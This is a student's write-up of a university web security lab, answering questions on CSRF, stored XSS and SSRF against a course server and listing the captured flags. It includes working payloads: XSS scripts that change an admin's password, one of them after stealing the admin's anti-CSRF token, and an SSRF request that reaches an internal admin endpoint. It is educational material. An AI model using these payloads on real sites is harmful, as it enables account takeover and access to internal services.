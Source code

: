 # SLH - LAB01

Rhyan Robertson

## 2 Basic CSRF

Cross-Site Request Forgery (CSRF) is a type of attack where an attacker crafts a malicious HTTP request and tricks a victim user into making that request to a server on which the victim is already authenticated.

### 2.1. The website is also vulnerable to an XSS but you won’t detect it with a `<script>alert(1)</script>.` How can you detect it?

We cannot detect it using `alert();` because we don't see the result of the form submission.

### 2.2. Try to exfiltrate the admin cookie with the XSS. It does not work because of http-only. Explain what is http-only and how it prevents the exfiltration.

The http-only flag prevents the client side script from accessing the cookie. This helps mitigate CRSF attacks because if the admin cannot read/edit his own cookie, the attacker cannot either.

### 2.3. The website is also vulnerable to a CSRF. Which script is vulnerable?

The contact form is because it sends a message to the administrator.

### 2.4. What is the flag of this challenge?

The flag is : **uM}&+6*qLwFet}AX**

### 2.5. How did you obtain the flag? Describe clearly your attack. In particular, explain where the XSS is and what type of XSS it is ?

I used a **Stored XSS** attack by sending a script that runs on the admins browser.

Using the contact form, we can send a message to the administrator who sees them directly in his DOM. Thus we can make the admin execute the following code without them needing to do anything else other than open the page to view the messages.

```js
Hello
<script>
let newPassword = {password: "rhyan"};

fetch('profile/rhyan.robertson@heig-vd.ch_admin', {
    method: 'POST',
    headers: {'Content-type':'application/json'},
    body: JSON.stringify(newPassword)
})           
</script>
```

This script then imitates the admin changing the password from the **New password** form on the profile page. We do this by sending the same POST request as the form would have.

## 3 More Advanced CSRF

### 3.1. What is an anti-CSRF token? Explain in details how it works

The server generates a unique, pseudo-random, "unpredictable" and "secret" value that is stored both server and client side. It's used to verify that a future HTTP request is made by the current user (by matching both values).

Typically, the value is stored in a hidden html element on the client-side.

### 3.2. How do you see that the form is protected with an anti-CSRF token?

This hiddent input is a clue : `<input type="hidden" name="_csrf" value="oKuj5aK5-hbwr8t570AyARJi6-IapyiKwxaY">`

### 3.3. The website is also vulnerable to an XSS. What is the flag of this challenge?

p+)[4/MhHEetD3fZ

### 3.4. How did you obtain the flag? Describe clearly your attack

We caputre the current csrf token of the admin and use it to send the request.

```js
var csrf;
var xmlhttp = new XMLHttpRequest();

xmlhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        let textblock = this.responseText;
        let lines = textblock.split('\n');
        let line = lines.at(24);
        csrf = line.substring(60, line.length - 3);
        

        fetch('profile/rhyan.robertson@heig-vd.ch_admin', {
            method: 'POST',
            headers: {'Content-type':'application/json'},
            body: JSON.stringify({
                password: "1234",
                _csrf: csrf
            })
        })
    }
};
xmlhttp.open("GET", "/profile/rhyan.robertson@heig-vd.ch", true);
xmlhttp.send();
```

### 3.5. How would you secure the website?

Check and sanitize (e.g. escaping or filtering control characters and validating) messages received before displaying them.

<https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>

## 4 SSRF

### 4.1. The flag is confidential, it should not be indexed by search engines robots. Where is the flag? How did you find this information?

Thanks to the info that search engine robots should not index the flag, we can guess that it's disallowd in the <http://iict-mv310-slh:8082/robots.txt> file.

Location : <http://iict-mv310-slh:8082/api/admin/flag>

### 4.2. You are not allowed to access the flag. Exploit an SSRF to obtain it. What is the flag? Hint: Read the javascript code of the page

Flag : `SLH22{zfrHW42XZMgpoyvEk}`

### 4.3. How did you obtain the flag? Describe clearly your attack

We can use the test api to get the server admin to access a url and send us a response. SO even that


```http
POST /api/webhook/test HTTP/1.1
Host: iict-mv310-slh:8082
Content-Type: application/json
Content-Length: 64

{"url":"http://localhost:8082/api/admin/flag", "message":"test"}
```

```bash
curl --location --request POST 'http://iict-mv310-slh:8082/api/webhook/test' \
--header 'Content-Type: application/json' \
--data-raw '{"url":"http://localhost:8082/api/admin/flag", "message":"test"}'
```

Response :

```json
{"res":"Not a valid Discord webhook","webhook_data":{"flag":"SLH22{zfrHW42XZMgpoyvEk}"}}
```

### 4.4. How would you prevent this attack ?

